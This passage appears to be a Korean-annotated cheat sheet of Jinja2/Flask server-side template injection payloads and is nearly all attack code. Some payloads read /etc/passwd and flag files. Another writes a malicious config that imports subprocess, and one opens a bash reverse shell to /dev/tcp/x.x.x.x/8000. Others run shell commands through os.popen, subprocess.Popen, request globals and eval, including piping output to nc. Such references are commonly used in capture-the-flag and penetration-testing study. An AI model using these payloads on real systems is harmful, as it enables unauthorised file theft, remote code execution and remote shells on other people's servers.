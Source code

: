<br>

### 1.3.7. Read/Write Remote File

```python
# [40]: <type File>    # File Class

# read file
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

# read file using config class
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}

# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}


# write file & excute malicious code in .cfg

### evil config
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = 
check_output\n') }}

### load the evil config

{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  

### connect to evil host
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}
```
<br>


### 1.3.8. Remote Code Execution

```python
# [109] : <class 'codecs.IncrementalDecoder'>
{{"".__class__.__base__.__subclasses__()[109].__init__.__globals__['sys'].modules['os'].popen('ls').read()}}

# [273] : <class 'subprocess.Popen'>
{{"".__class__.__base__.__subclasses__()[273]('ls',shell=True,stdout=-1).communicate()[0].strip()}}

{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}

# attr & . 혼용하는 방법
{{ (config|attr("__class__")).__init__.__globals__['os'].popen('cat flag').read() }}

# flask request 모듈을 이용한 RCE 1 (os.popen)
{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('id')|attr('read')()}}

# flask request 모듈을 이용한 RCE 2 (os.system())
{{ request.application.__globals__.__builtins__.__import__['os'].system('ls | nc 127.0.0.1 8080') }}

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}

{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}

{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}

{{ get_flashed_messages.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}
```